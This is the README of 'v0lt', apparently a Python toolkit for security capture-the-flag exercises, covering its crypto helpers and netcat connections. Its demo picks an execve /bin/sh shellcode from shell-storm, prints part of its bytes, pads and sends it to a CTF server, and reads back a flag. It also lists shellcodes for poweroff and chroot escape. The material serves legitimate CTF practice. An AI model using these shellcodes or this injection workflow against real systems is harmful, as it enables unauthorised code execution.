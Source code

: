 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Libmagic
* Python3    
  * BeautifulSoup    
  * Requests    

####Installation:   
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies

# for V0lt and dependencies install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
chmod +x install.sh && ./install.sh
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read(1))
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (XOR, inverse XOR)    
    * Usual conversions (bytes, strings, hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)    

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more
